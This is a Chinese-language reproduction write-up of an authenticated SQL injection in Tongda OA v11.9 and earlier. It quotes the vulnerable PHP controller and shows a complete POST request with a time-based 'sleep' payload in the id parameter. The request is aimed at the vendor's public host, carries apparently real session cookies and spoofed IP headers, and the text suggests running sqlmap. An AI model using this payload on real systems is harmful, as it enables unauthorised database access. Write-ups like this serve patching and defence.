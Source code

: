 # 通达OA v11.9 后台SQL注入漏洞

## 漏洞描述

通达OA v11.9 及以下版本中由于某些参数过滤不完善导致后台存在SQL注入漏洞

## 漏洞影响

`通达OA <= v11.9`

## 环境搭建

`https://cdndown.tongda2000.com/oa/2019/TDOA11.9.exe`

双击安装

![](resource/通达OA-v11.9-后台SQL注入漏洞/media/1.png)

## 漏洞复现

漏洞文件为 `webroot/general/appbuilder/modules/portal/controllers/WorkbenchController.php`

```php
public function actionUpsharestatus()
    {
        Yii::$app->response->format = yii\web\Response::FORMAT_JSON;
        $data = modules\appdesign\models\AppUtils::toGBK($_POST);

        if (modules\portal\controllers\intval($data["uid"]) == $_SESSION["LOGIN_UID"]) {
            modules\portal\models\PortalWorkbench::updateAll(array("state" => "{$data["status"]}"), "id={$data["id"]}");
        }
        else if ($data["status"] == 1) {
            modules\portal\models\PortalWorkbenchState::deleteAll(array("wids" => "{$data["id"]}", "uid" => "{$_SESSION["LOGIN_UID"]}"));
        }
        else {
            $Work = new modules\portal\models\PortalWorkbenchState();
            $Work->wids = $data["id"];
            $Work->uid = $_SESSION["LOGIN_UID"];
            $Work->save();
        }

        $dataBack = array("status" => 1, "msg" => modules\portal\controllers\_("操作成功"));
        $dataBack = modules\appdesign\models\AppUtils::toUTF8($dataBack);
        return $dataBack;
    }
```

![](resource/通达OA-v11.9-后台SQL注入漏洞/media/2.png)

其中 `updateAll()` 函数并没有使用防止 SQL注入的 `sql_injection()` 来防止注入

webroot/inc/conn.php

![](resource/通达OA-v11.9-后台SQL注入漏洞/media/3.png)

所以这里就出现了 id 参数存在注入的情况，请求包如下

```bash
POST /general/appbuilder/web/portal/workbench/upsharestatus HTTP/1.1
Host: oa.tongda2000.com
Connection: close
Content-Length: 36
Cache-Control: max-age=0
sec-ch-ua: "Google Chrome";v="89", "Chromium";v="89", ";Not A Brand";v="99"
sec-ch-ua-mobile: ?0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Origin: https://oa.tongda2000.com
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://oa.tongda2000.com/general/appbuilder/web/portal/workbench/upsharestatus
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: __root_domain_v=.tongda2000.com; SID_12=5ea03399; USER_NAME_COOKIE=chenqiang; Hm_lvt_7cbefde9059536a2b96aaafc134d625c=1617014067,1617196083; _qddaz=QD.677915359373668; PHPSESSID=nso4iqhvp2qi464eoavk2fn0c0; OA_USER_ID=chenqiang; SID_15=ded66d80; LAST_OPERATION_TIME=1617242241
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1

uid=15&status=1&id=1;select sleep(4)
```

注意 uid参数 要为当前用户的uid才能完成请求，可以使用 burp 遍历查看时间响应

例如这里使用官网的测试账户 uid 遍历出为 15

![](resource/通达OA-v11.9-后台SQL注入漏洞/media/4.png)

如果uid错误则不会出现时间延迟，将请求包放入 Sqlmap跑一下

![](resource/通达OA-v11.9-后台SQL注入漏洞/media/5.png)